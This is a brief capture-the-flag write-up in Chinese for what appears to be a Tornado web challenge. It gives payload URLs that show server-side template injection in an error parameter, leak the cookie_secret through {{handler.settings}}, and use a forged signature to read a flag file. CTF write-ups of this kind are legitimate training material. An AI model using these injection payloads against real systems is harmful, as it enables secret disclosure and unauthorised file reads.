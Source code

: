 ##  (Title)

##  Tools

NULL

##  Steps

* Step 1 
报错时的error参数存在模板注入
```
http://49.4.78.81:30980/error?msg={{1^0}}
```
提交
```
http://49.4.78.81:30980/error?msg={{handler.settings}}
```
可以看到cookie_secret
伪造签名读取flag
```
http://49.4.78.81:30980/file?filename=/fllllllllllag&signature=7bae09c2c6e2f6aa34df7dbee23db960
```




